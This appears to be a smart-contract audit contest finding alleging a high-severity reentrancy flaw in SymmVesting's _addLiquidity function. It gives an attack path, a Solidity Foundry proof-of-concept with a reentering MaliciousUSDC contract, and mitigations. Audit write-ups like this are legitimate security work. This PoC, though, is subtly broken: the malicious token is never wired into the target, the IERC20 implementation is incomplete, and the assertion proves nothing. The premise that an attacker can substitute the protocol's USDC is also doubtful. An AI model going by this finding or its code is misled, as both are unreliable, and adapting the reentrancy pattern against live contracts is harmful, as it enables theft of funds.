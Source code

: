 Clean Mustard Aphid

High

# An attacker will drain funds through reentrancy in _addLiquidity function

### Summary

The incorrect ordering of external calls and state updates in _addLiquidity will cause a complete loss of funds for the protocol as an attacker can reenter and drain tokens through multiple paths.


### Root Cause

In `token/contracts/vesting/SymmVesting.sol:184-185` 'https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/SymmVesting.sol#L184-L185' the _addLiquidity function performs unsafe external calls in incorrect order with `usdc.safeTransferFrom(msg.sender, address(this), usdcIn);` followed by `usdc.approve(address(PERMIT2), usdcIn);`, violating the CEI (Checks-Effects-Interactions) pattern.

### Internal Pre-conditions

  1. Contract needs to have SYMM tokens available.
  2. User needs to have USDC tokens.
  3. PERMIT2 approvals need to be set for the contract.

### External Pre-conditions

1. USDC token needs to be a malicious contract capable of reentrancy.
2. Pool needs to be active and have liquidity.

### Attack Path

 1. Attacker deploys malicious USDC token that implements reentrancy in transferFrom.
 2. Attacker calls addLiquidity with specific amounts.
 3. During USDC.safeTransferFrom, the malicious contract reenters _addLiquidity.
 4. Due to still-valid approvals, attacker can:
     - Drain approved SYMM tokens
     - Manipulate LP token calculations
     - Execute multiple unauthorized transfers
  5. Original transaction completes with corrupted state.


### Impact

  The protocol suffers a complete loss of approved tokens. The attacker gains:
  - All approved SYMM tokens
  - Ability to drain multiple users' deposits
  - Manipulation of LP token balances
  - Potential to break internal accounting


### PoC

 ```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.18;
  
  import {Test} from "forge-std/Test.sol";
  import {SymmVesting} from "../contracts/vesting/SymmVesting.sol";
  import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
  
  contract MaliciousUSDC is IERC20 {
      SymmVesting target;
      uint256 attackCount;
      
      constructor(address _target) {
          target = SymmVesting(_target);
      }
      
      function transferFrom(address from, address to, uint256 amount) external returns (bool) {
          if (attackCount < 3) { // Limit reentrancy depth
              attackCount++;
              // Reenter with different parameters
              target.addLiquidity(amount, 0, amount);
          }
          return true;
      }
  }
  
  contract ReentrancyTest is Test {
      SymmVesting vesting;
      MaliciousUSDC maliciousUSDC;
      
      function setUp() public {
          vesting = new SymmVesting();
          maliciousUSDC = new MaliciousUSDC(address(vesting));
          // Setup vesting with malicious USDC
          // Initialize other required contracts and states
      }
      
      function testReentrancyAttack() public {
          uint256 initialBalance = vesting.balanceOf(address(this));
          
          // Trigger the attack
          vesting.addLiquidity(1000, 0, 1000);
          
          // Verify tokens were drained
          assertLt(vesting.balanceOf(address(this)), initialBalance);
      }
  }
  ```

### Mitigation

1. Implement ReentrancyGuard modifier on addLiquidity and _addLiquidity functions.
2. Follow CEI pattern strictly - move all state changes before external calls.
3. Add zero-address checks for token addresses.
4. Reset approvals to zero before setting new approvals.
5. Consider implementing a pull payment pattern for token transfers.